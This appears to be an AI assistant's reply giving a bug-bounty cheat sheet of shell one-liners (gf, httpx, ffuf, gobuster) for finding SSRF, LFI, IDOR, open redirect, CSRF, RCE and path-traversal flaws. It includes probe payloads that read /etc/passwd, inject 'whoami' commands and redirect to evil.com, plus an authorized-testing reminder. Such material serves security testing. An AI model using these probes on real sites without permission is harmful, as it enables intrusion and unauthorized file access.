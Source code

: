 Here you go! These one-liners will help you hunt for **SSRF, LFI, IDOR, and other vulnerabilities** efficiently.  

---

## **1️⃣ Server-Side Request Forgery (SSRF) Hunting**  
```bash
cat urls.txt | gf ssrf | uro | httpx -silent -mc 200 -o ssrf_targets.txt
```
🔹 **What it does:**  
- Uses `gf ssrf` to extract potential SSRF endpoints.  
- Deduplicates URLs using `uro`.  
- Filters live URLs with HTTP 200 response codes using `httpx`.  

🔹 **To test SSRF manually, inject:**  
```
?url=http://burpcollaborator.net
?img=http://your-server.com
?dest=http://your-tunnel.io
```
Then monitor responses or **Burp Collaborator** for hits.  

---

## **2️⃣ Local File Inclusion (LFI) Exploitation**  
```bash
cat urls.txt | gf lfi | sed 's/=.*$/=/g' | anew lfi_payloads.txt && cat lfi_payloads.txt | while read url; do echo "$url../../../../../../etc/passwd"; done | httpx -silent -mc 200 -o lfi_vulnerable.txt
```
🔹 **What it does:**  
- Extracts LFI parameters using `gf lfi`.  
- Normalizes URLs to remove values after `=`.  
- Appends `../../../../../../etc/passwd` to test for LFI.  
- Uses `httpx` to check which URLs return **200 OK (success).**  

---

## **3️⃣ Insecure Direct Object References (IDOR) Testing**  
```bash
cat urls.txt | gf idor | anew idor_candidates.txt && ffuf -u FUZZ -w idor_candidates.txt -H "Cookie: session=your_cookie_here" -fs 403 -fc 200,302 -o idor_results.txt
```
🔹 **What it does:**  
- Finds possible **IDOR-prone** URLs using `gf idor`.  
- Uses `ffuf` to test unauthorized access by fuzzing object IDs.  
- Excludes false positives (403 Forbidden) and common responses.  

🔹 **Manually test:**  
Change **user/account ID in URL** to another valid number:  
```
https://target.com/user/1234 -> https://target.com/user/5678
https://target.com/order?id=345 -> https://target.com/order?id=789
```
Check if you can access another user’s data.  

---

## **4️⃣ Open Redirect Testing**  
```bash
cat urls.txt | gf redirect | anew redirect_candidates.txt && cat redirect_candidates.txt | while read url; do echo "$urlhttps://evil.com"; done | httpx -silent -mc 302,301 -o open_redirects.txt
```
🔹 **What it does:**  
- Extracts open redirect parameters using `gf redirect`.  
- Appends `https://evil.com` to test for redirections.  
- Checks if the target redirects (301 or 302).  

🔹 **Manually test:**  
Append payloads to URLs with `next=`, `redirect=`, or `url=` parameters:  
```
?next=https://evil.com
?redirect=https://attacker.com
?url=https://phishing.com
```
Check if the browser redirects.  

---

## **5️⃣ Cross-Site Request Forgery (CSRF) Hunting**  
```bash
gau target.com | gf csrf | httpx -silent -mc 200 -o csrf_vulnerable.txt
```
🔹 **What it does:**  
- Finds CSRF-prone pages using `gf csrf`.  
- Filters live URLs.  

🔹 **Manually check for:**  
- **Forms with no CSRF tokens**  
- **Important actions (password reset, email change, etc.)**  

---

## **6️⃣ Remote Code Execution (RCE) Hunting**  
```bash
cat urls.txt | gf rce | uro | httpx -silent -mc 200 -o rce_candidates.txt
```
🔹 **What it does:**  
- Extracts possible RCE URLs.  
- Deduplicates and filters live endpoints.  

🔹 **Manually test:**  
Inject commands in parameters:  
```
?cmd=whoami
?exec=id
?ping=google.com;whoami
```
Check for output in the response.  

---

## **7️⃣ Path Traversal Testing**  
```bash
cat urls.txt | gf traversal | uro | httpx -silent -mc 200 -o traversal_candidates.txt
```
🔹 **What it does:**  
- Extracts potential directory traversal endpoints.  
- Tests if they are accessible.  

🔹 **Manually test payloads:**  
```
../../../../../../etc/passwd
../../../../../../windows/system32/drivers/etc/hosts
```

---

## **8️⃣ Hidden Admin Panel Discovery**  
```bash
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o admin_panels.txt
```
🔹 **What it does:**  
- Uses `gobuster` to brute-force directories and find hidden admin panels.  

---

## **9️⃣ Fuzzing for Common Vulnerabilities with FFUF**  
```bash
ffuf -u https://target.com/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200 -o found.txt
```
🔹 **What it does:**  
- Uses `ffuf` to find hidden files & directories.  

---

### 💥 **Final Notes** 💥  
- Use **Burp Suite** to **manually** validate these vulnerabilities.  
- Automate scanning but always **verify findings manually**.  
- Avoid **illegal hacking**—only test on **authorized targets**!  

Let me know if you need more! 🚀
